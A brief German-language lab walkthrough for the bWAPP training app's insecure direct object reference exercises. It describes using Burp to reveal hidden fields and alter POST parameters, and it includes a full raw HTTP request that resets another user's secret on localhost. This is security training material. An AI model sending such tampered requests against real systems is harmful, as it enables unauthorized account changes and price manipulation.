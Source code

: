 ### // A4 - INSECURE DIRECT OBJECT REFERENCES //
---
##### Insecure DOR (Change Secret)

Mit burp können versteckte elemente angezeigt werden.<br>
Oder es können die POST Parameter abgefangen werden.

---
##### Insecure DOR (Reset Secret)
Das "Login" und "Secret" feld kann angepasst werden:
~~~
POST /bWAPP/xxe-2.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://localhost:8083/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=2
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

<reset><login>bee</login><secret>Any bugs?</secret></reset>
~~~

---
##### Insecure DOR (Order Tickets)
bWAPP/insecure_direct_object_ref_2.php <br>
Mit burp können vesteckte ticketpreise angezeigt werde oder über ein Proxy werden die POST Paramter während der übetragung angepasst.
